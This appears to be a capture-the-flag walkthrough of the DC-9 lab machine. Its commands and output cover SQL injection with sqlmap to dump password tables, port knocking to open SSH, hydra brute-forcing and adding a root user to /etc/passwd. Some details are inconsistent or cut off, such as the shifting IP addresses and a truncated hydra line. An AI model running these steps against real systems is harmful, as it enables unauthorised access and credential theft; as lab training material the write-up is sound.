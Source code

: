 `Running all scans on 192.168.217.209`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`80/tcp open  http`

On this page, there are some usernames we can extract and a search but not much else.

```
cat users                                   
marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
```

No SSH port open so can't do much with these names.
Let's check for SQLi on the search.

![[Pasted image 20240229154151.png]]

![[Pasted image 20240229154228.png]]

Save this to a file

Check for the databases
```
sqlmap -r req --batch -dbs
```

`available databases [3]:`
`[*] information_schema`
`[*] Staff`
`[*] users`

Let's see what tables are in the Staff database
```
sqlmap -r req --batch -D Staff -tables
```

`Database: Staff`
`[2 tables]`
`+--------------+`
`| StaffDetails |`
`| Users        |`
`+--------------+`

Dump the StaffDetails table
This doesn't contain anything interesting.
Dump the Users table
```
sqlmap -r req --batch -D Staff -T Users -dump
```
`Database: Staff`
`Table: Users`
`[1 entry]`
`+--------+----------------------------------+----------+`
`| UserID | Password                         | Username |`
`+--------+----------------------------------+----------+`
`| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |`
`+--------+----------------------------------+----------+`


![[Pasted image 20240229154659.png]]

See the tables in the users database
```
sqlmap -r req --batch -D users -tables
```

`Database: users`
`[1 table]`
`+-------------+`
`| UserDetails |`
`+-------------+`

`Database: users`
`Table: UserDetails`
`[17 entries]`
`+----+------------+---------------+---------------------+-----------+-----------+`
`| id | lastname   | password      | reg_date            | username  | firstname |`
`+----+------------+---------------+---------------------+-----------+-----------+`
`| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |`
`| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |`
`| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |`
`| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |`
`| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |`
`| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |`
`| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |`
`| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |`
`| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |`
`| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |`
`| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |`
`| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |`
`| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |`
`| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |`
`| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |`
`| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |`
`| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |`
`+----+------------+---------------+---------------------+-----------+-----------+``
`
Running out of ideas as the webpage isn't very helpful. Let's make sure nmap didn't miss anything.
```
sudo nmap -sV --top-ports 100 192.168.250.209
```
`Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 15:50 EST`
`Nmap scan report for 192.168.250.209`
`Host is up (0.034s latency).`
`Not shown: 98 closed tcp ports (reset)`
`PORT   STATE    SERVICE VERSION`
`22/tcp filtered ssh`
`80/tcp open     http    Apache httpd 2.4.38 ((Debian))`

SSH is there but filtered. I've seen this before, could it need a port knock?
https://medium.com/@reotmani/port-knocking-dbe6d8aaeb9

The admin:transorbital1 credentials we dumped earlier let us login to the admin section of the webpage.
Under manage it has file does not exist. Can we view files?

![[Pasted image 20240229155409.png]]

Yes we can. Let's check for a knockd.conf as mentioned in the Medium guide.
![[Pasted image 20240229155502.png]]

We need to hit these 3 ports before 22 will open.

```
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.217.209; done
```

Check again
`sudo nmap -sV --top-ports 100 192.168.250.209`
`Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 15:56 EST`
`Nmap scan report for 192.168.250.209`
`Host is up (0.033s latency).`
`Not shown: 98 closed tcp ports (reset)`
`PORT   STATE SERVICE VERSION`
`22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)`
`80/tcp open  http    Apache httpd 2.4.38 ((Debian))`
`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

SSH is open now.

Run our usernames and passwords we dumped through SSH with hydra
`hydra -L users -P pws.txt ssh://192.168.250.209`
`Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).`

`Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-29 15:57:06`
`[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4`
`[DATA] max 16 tasks per 1 server, overall 16 tasks, 289 login tries (l:17/p:17), ~19 tries per task`
`[DATA] attacking ssh://192.168.250.209:22/`
`[22][ssh] host: 192.168.250.209   login: chandlerb   password: UrAG0D!`
`[22][ssh] host: 192.168.250.209   login: joeyt   password: Passw0rd`
`[STATUS] 266.00 tries/min, 266 tries in 00:01h, 26 to do in 00:01h, 13 active`
`[22][ssh] host: 192.168.250.209   login: janitor   password: Ilovepeepee`
`1 of 1 target successfully completed, 3 valid passwords found`
`Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-29 15:58:15``

The user janitor has a folder `.secrets-for-putin` in their home directory

`janitor@dc-9:~$ ls -ltra`
`total 16`
`drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin`
`drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..`
`lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null`
`drwx------  3 janitor janitor 4096 Mar  1 06:58 .gnupg`
`drwx------  4 janitor janitor 4096 Mar  1 06:58 .`

In this folder is a file with more passwords
`janitor@dc-9:~/.secrets-for-putin$ ls`
`passwords-found-on-post-it-notes.txt`
`janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt` 
`BamBam01`
`Passw0rd`
`smellycats`
`P0Lic#10-4`
`B4-Tru3-001`
`4uGU5T-NiGHts`

Add these to our passwords file and re-run hydra

We get a new hit
`[22][ssh] host: 192.168.250.209   login: fredf   password: 

SSH in to fredf and check sudo -l
`ssh fredf@192.168.250.209`  
`fredf@192.168.250.209's password:` 
`Permission denied, please try again.`
`fredf@192.168.250.209's password:` 
`Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64`

`The programs included with the Debian GNU/Linux system are free software;`
`the exact distribution terms for each program are described in the`
`individual files in /usr/share/doc/*/copyright.`

`Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent`
`permitted by applicable law.`
`fredf@dc-9:~$ ls`
`local.txt`
`fredf@dc-9:~$ sudo -l`
`Matching Defaults entries for fredf on dc-9:`
    `env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin`

`User fredf may run the following commands on dc-9:`
    `(root) NOPASSWD: /opt/devstuff/dist/test/test`
`fredf@dc-9:~$`

Run it to see what it does
`fredf@dc-9:/tmp$ sudo /opt/devstuff/dist/test/test`
`Usage: python test.py read append`
So it reads a file then appends it to another file

Let's create our own root user.
Salt the password
```
openssl passwd -1 -salt dbl password
```

`$1$dbl$HDDAaqA2syu7zGMsMXbcd0`

Form the whole string
`dbl:$1$dbl$HDDAaqA2syu7zGMsMXbcd0:0:0:root:/root:/bin/bash`

Echo it into a file
`echo 'dbl:$1$dbl$HDDAaqA2syu7zGMsMXbcd0:0:0:root:/root:/bin/bash' > exploit`

Run our sudo program to add that to our /etc/passwd
`fredf@dc-9:/tmp$ sudo /opt/devstuff/dist/test/test /tmp/exploit /etc/passwd

Su and get the flag
`fredf@dc-9:/tmp$ sudo /opt/devstuff/dist/test/test /tmp/exploit /etc/passwd`
`fredf@dc-9:/tmp$ su dbl`
`Password:` 
`root@dc-9:/tmp# cat /root/proof.txt`
`eca3074dcbf3873f93f322df779f09d9`

